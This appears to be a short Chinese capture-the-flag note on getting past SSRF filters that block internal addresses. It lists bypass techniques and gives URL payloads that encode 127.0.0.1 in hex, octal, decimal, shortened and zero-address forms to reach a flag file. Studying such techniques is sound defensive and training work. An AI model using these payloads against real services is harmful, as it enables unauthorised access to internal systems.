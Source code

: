 限制请求IP不为内网地址，绕过方法：

- 采取短链接绕过
- 域名解析绕过
- 进制转换
- 采取302重定向跳转







#### IP地址纯进制绕过

原payload

```
url=http://127.0.0.1/flag.php
```

十六进制

```
url=http://0x7F.0.0.1/flag.php
```

八进制

```
url=http://0177.0.0.1/flag.php
```

十进制整数格式

```
url=http://2130706433/flag.php
```

16进制整数格式

```
url=http://0x7F000001/flag.php
```

省略模式，也适用于长度限制绕过

```
url=http://127.1/flag.php
```

CIDR绕过localhost

```
url=http://127.127.127.127/flag.php
```



0方式绕过，也适用于长度限制绕过

```
url=http://0/flag.php
url=http://0.0.0.0/flag.php
```
